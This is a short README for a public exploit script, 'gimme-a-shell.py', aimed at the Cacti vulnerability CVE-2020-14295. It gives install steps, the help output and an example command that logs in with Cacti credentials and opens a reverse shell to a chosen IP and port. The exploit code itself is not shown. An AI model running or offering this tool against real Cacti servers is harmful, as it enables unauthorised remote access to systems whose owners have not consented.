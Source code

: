 # CVE-2020-14295
***
Vulnerability details - https://github.com/Cacti/cacti/issues/3622

## Install
`pip3 install -r requirements.txt`

## Usage 
```
$ ./gimme-a-shell.py --help
usage: gimme-a-shell.py [-h] -t Target -U Username -P Password -i Shell-IP -p Shell-Port

optional arguments:
  -h, --help     show this help message and exit

required arguments:
  -t Target      Target URL
  -U Username    Cacti username
  -P Password    Cacti password
  -i Shell-IP    Reverse-Shell IP
  -p Shell-Port  Reverse-Shell Port
```
## Example 
`./gimme-a-shell.py -t http://cacti.localhost -U admin -P admin -i 127.0.0.1 -p 9001`